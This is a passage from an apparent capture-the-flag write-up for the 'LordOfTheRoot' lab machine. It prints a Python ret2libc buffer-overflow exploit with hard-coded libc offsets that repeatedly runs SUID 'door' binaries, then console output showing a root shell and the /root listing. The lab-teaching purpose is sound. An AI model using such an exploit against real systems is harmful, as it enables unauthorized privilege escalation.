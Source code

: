 ```python
from subprocess import call
import struct,os

libc_address=0xb7578000

system=0x00040190
exit=0x000331e0
shell=0x00160a24

system_addr=struct.pack("<I", libc_address + system)
exit_addr=struct.pack("<I", libc_address + exit)
shell_addr=struct.pack("<I", libc_address + shell)

buf="A"*171
buf+=system_addr
buf+=exit_addr
buf+=shell_addr

i,n=1,1

while(n < 4):
    x=os.path.getsize("/SECRET/door{}/file".format(n))
    if (x == 5150):
        print("[-] Door {} Open".format(n))
        while (i < 500):
            print(" Attempt {}".format(i))
            path="/SECRET/door{}/file".format(n)
            ret= call([path, buf])
            i+=1
    n+=1
    i=1

    if n==4:
        n=1
```

As we see, with few attempts was possible to exploit the binary and get a root shell.

```console
smeagol@LordOfTheRoot:~$ python exp.py
[-] Door 1 Open   
 ...
 Attempt 70
# id
uid=1000(smeagol) gid=1000(smeagol) euid=0(root) groups=0(root),1000(smeagol)
# python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@LordOfTheRoot:/dev/shm# cd /root/
root@LordOfTheRoot:/root# ls
buf  buf.c  Flag.txt  other  other.c  switcher.py
```

In the root directory the switcher.py script randomly copy the buf file through a cron job that runs every three minutes.
